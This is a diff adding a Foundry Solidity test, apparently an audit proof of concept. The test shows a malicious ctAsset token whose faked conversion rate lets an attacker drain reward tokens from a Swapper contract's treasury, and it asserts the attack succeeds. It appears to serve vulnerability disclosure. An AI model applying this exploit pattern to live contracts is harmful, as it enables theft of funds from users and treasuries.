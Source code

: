 ```diff
diff --git a/Swapper.t.sol b/Swapper.t.sol
index 18268f5..f611cd0 100644
--- a/Swapper.t.sol
+++ b/Swapper.t.sol
@@ -349,8 +349,83 @@ contract StrategyBaseTest is Test, SwapperEvents {
             ORACLE_QUOTE_DECIMALS, // oracleDecimals_,
             rewardUSDPair
         ); // oraclePair_
+    } 
+    
+    function test_t0x1c_swapTokensForReward() public {
+        uint256 rewardAmountInTreasury = 100_000_000 * 10 ** ASSET_DECIMALS;
+        int256 rewardPrice = int256(500 * 10 ** ORACLE_QUOTE_DECIMALS);
+        int256 assetPrice = int256(22 * 10 ** ORACLE_QUOTE_DECIMALS);
+        // mint some reward tokens to the treasury
+        rewardToken.mint(treasury, rewardAmountInTreasury);
+
+        // Malicious ctAsset token
+        MaliciousCTtoken maliciousctToken = new MaliciousCTtoken(address(asset));
+
+        // set prices for the oracle
+        _setOraclePrices(assetPrice, rewardPrice);
+
+        // Hazel wants to swap half of his ctAsset belongings
+        uint256 hazelCtAssetAmount = maliciousctToken.balanceOf(hazel);
+        uint256 ctAssetAmountToBeSwapped = hazelCtAssetAmount;
+        // treasury to approve the spending of reward tokens
+        vm.prank(treasury);
+        rewardToken.approve(address(swapper), rewardAmountInTreasury);
+        vm.prank(hazel);
+        maliciousctToken.approve(address(swapper), ctAssetAmountToBeSwapped);
+
+        // calculate the expected answer
+        uint256 assetAmountFromCtAssetAmount = maliciousctToken.convertToAssets(ctAssetAmountToBeSwapped); // @audit-info : returns a made up number
+        console.log("assetAmountFromCtAssetAmount =", assetAmountFromCtAssetAmount);
+        uint256 totalRewardTokenAmount = _getExpectedRewardTokenAmount(
+            assetAmountFromCtAssetAmount,
+            assetPrice,
+            rewardPrice
+        );
+
+        vm.startPrank(hazel);
+        vm.expectEmit(false, true, true, true, address(swapper));
+        emit SwapperEvents.Swapped(
+            hazel,
+            address(maliciousctToken),
+            address(rewardToken),
+            ctAssetAmountToBeSwapped,
+            totalRewardTokenAmount
+        );
+        uint256 beforeAttack = rewardToken.balanceOf(hazel);
+        console.log("Hazel's reward token balance before attack=", beforeAttack);
+        // create the swap
+        swapper.swapTokensForReward(address(maliciousctToken), address(rewardToken), ctAssetAmountToBeSwapped);
+
+        vm.stopPrank();
+        console.log("Hazel's reward token balance after attack =", rewardToken.balanceOf(hazel));
+        assertGt(rewardToken.balanceOf(hazel), beforeAttack, "Attack failed");
     }
 }
 
```